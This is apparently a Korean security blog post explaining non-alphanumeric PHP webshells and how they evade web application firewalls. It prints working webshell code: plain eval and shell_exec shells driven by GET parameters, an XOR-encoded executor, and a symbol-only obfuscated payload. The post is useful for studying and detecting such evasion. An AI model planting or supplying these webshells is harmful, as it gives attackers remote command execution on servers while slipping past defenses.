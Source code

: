 ```yaml
---

layout: post
title: "non-alphanumeric webshell"
excerpt: "Try to know non-alphanumeric webshell & use it ~_~"
date: 2019-03-11
categories: [Web]
comments: true 

---
```


## non-alphanumeric webshell

이번에는 non-alphanumeric webshell에 관하여 알아보자.  이름에서 알 수 있듯이 오직 특수문자로만 구성된 웹쉘 페이로드를 말한다. 이는 일반적으로 정규표현식등을 이용하며 숫자와 일반 알파벳 문자열을 포함하는 웹쉘 페이로드와는 다르게 WAF를 우회하기 위하여 만들어졌다. WAF는 Web Application Firewall로 웹 방화벽을 뜻한다. 

WAF는 보통 파일의 확장자를 탐지하여 보안하는 방법, 업로드된 파일을 이용하여 파라미터로 전송되는 OS명령어를 탐지하여 보안하는 방법, 업로드 되는 파일의 내부에 실행함수를 탐지하는 방법으로 웹쉘을 탐지한다.

보통 처음 방법인 파일 확장자를 이용하여 탐지하는 방법은 해커가 웹쉘파일을 업로드할 때  정상적인 파일에 웹쉘을 삽입하여 업로드하는 것 등을 막아준다. 이런 경우는 snort등의 탐지도구를 이용하여 보안이 가능하다. 

다음으론 OS명령어를 탐지하는 방법과 파일 내부의 실행함수를 이용하여 탐지하는 방법인데, 바로 이 방법에서 non-alphanumeric webshell이 효과를 보인다. 보통 WAF가 탐지하는 명령어들은 php의 경우 exec()함수, popen()함수, system()함수, shell_exec()함수이고 이외에 jsp같은 경우 Runtime.getRuntime().exec()함수인데, non-alphanumeric webshell은 이러한 함수들을 사용할 필요가 없으니 간단하게 WAF를 우회할 수 있게된다. 

물론 이외에도 웹쉘에서 자주 사용되는 함수는 eval , passthru , require , fwrite 등 다양하다. 

<hr>

보통의 웹쉘의 예제를 확인해보자.

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}?>

<?php
echo shell_exec($_GET['cmd']);
?>
```

보통은 이런식의 형태를 띈다.  하지만 이런 경우는 보편적으로 필터링이 되어있거나 WAF로 인하여 보안이 된다.

그래서 우리는 시큐어코딩 뿐만 아니라 WAF등의 솔루션도 우회하기 위하여 no letter, no number의 non-alphanumeric을 이용한다.  아래의 예시들을 확인해보자. 

```php
<?
$_="{"; #XOR char
$_=($_^"<").($_^">;").($_^"/"); #XOR = GET
?>
<?=${'_'.$_}["_"](${'_'.$_}["__"]);?> # Exec :)
```

```php
<?php

$_[]=@!+_; $__=@${_}>>$_;$_[]=$__;$_[]=@_;@$_[((++$__)+($__++ ))].=$_;
$_[]=++$__; $_[]=$_[--$__][$__>>$__];$_[$__].=(($__+$__)+ $_[$__-$__]).($__+$__+$__)+$_[$__-$__];
$_[$__+$__] =($_[$__][$__>>$__]).($_[$__][$__]^$_[$__][($__<<$__)-$__] );
$_[$__+$__] .=($_[$__][($__<<$__)-($__/$__)])^($_[$__][$__] );
$_[$__+$__] .=($_[$__][$__+$__])^$_[$__][($__<<$__)-$__ ];
$_=$ 
$_[$__+ $__] ;$_[@-_]($_[@!+_] );
 
?> 
```

대표적인 예로는 위에 코드등이 있으며, 이를 이용한 다양한 문제들이 존재한다. 가장 대표적인 코드는 xor연산을 이용하여 원하는 문자열을 만들어주는 방식이다. 

아니면 .dynstr을 이용하여 포너블에서 문제를 해결하는 것 처럼  php에 내장되어 있는 함수의 네이밍을 이용하여 원하는 문자열을 제작하는 방법도 있다. A를 얻기 위하여 array[]를 사용한다던가 하는 방법이 그 예이다. 

